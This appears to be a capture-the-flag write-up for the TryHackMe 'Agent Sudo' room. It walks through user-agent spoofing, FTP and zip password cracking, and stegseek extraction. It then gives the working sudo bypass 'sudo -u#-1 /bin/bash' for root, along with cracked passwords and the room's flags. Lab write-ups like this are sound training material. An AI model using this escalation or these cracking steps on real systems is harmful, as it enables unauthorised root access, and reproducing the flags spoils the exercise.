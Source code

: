 # Report on Agent Sudo
[![Header](./assets/Header.png)](https://tryhackme.com/r/room/agentsudoctf)

# Enumiration 
1. The no of ports open -> **3**
we can see the nmap scan report in `nmap.scan`

There is a clue that user agent should be masked to `R`.
Use burpsuite to do so.
![Burpsuite](./assets/user-agent.png)
In the abobe picture we can see that i have changed the useragent to be `R`
we can achieve the same using `curl`
```bash
curl -A "R" -L <Ip address>
`-A` -> masks the user-agent
`-L` -> Follows Redirects
```
2. How you redirect yourself to a secret page? -> **user-agent**

Now we get to know that there are 25 employes and 26 alphebats. 
Lets bruteforce one by one 
```bash
curl -A "C" -L <IP address>
```
The above user returs some secreat..
Its the username.
refer [curl-c.txt](./files/curl-c.txt)

3. What is the agent name? **chris**

# Bruteforce
1. FTP password
A. refer [ftp-bruteforce](./files/ftp-bruteforce.txt)

once am into the FTP, i have seen 3 files, got them to my host and then started ro extracte any hidden files using binwalk.
```bash
binwalk -e <filename>
```
2. Zip file password
Found hidden zip file `8072.zip`.
Its a password protedcted zip file and used john to extract the password
refer [8072.zip](./files/8702-zip-password.txt )

3. Steg password 
And the other file `cute-alien.jpg` -> being a jpg file, there is a prossibility to extracte stegs from the file.
I used `stegseek` to do the same 
```bash
stegseek <filename>
```
![setegseek](./assets/stegseek.png)

[output-file](./files/cute-alien.jpg.out)

```bash
stegseek cute-alien.jpg                                  [ ⚡9ms ] [ 02:26 PM ]
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
4. Who is the other agent (in full name)?
[output-file](./files/cute-alien.jpg.out)

5. SSH password
`hackerrules!`
[output-file](./files/cute-alien.jpg.out)

# Flag

1. User flag
**b03d975e8c92a7c04146cfa7a5a313c7**

2. What is the incident of the photo called? 
**roswell alien autopsy**

# Privilege escalation

```Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

`# User privilege specification`
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
the above command will try to execute the /bin/bash using the username of the `-1`
Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```
1. CVE number for the escalation 
[Exploit-db](https://www.exploit-db.com/exploits/47502)

2. What is the root flag?
**b53a02f55b57d4439e3341834d70c062**

3. (Bonus) Who is Agent R?
**DesKel**
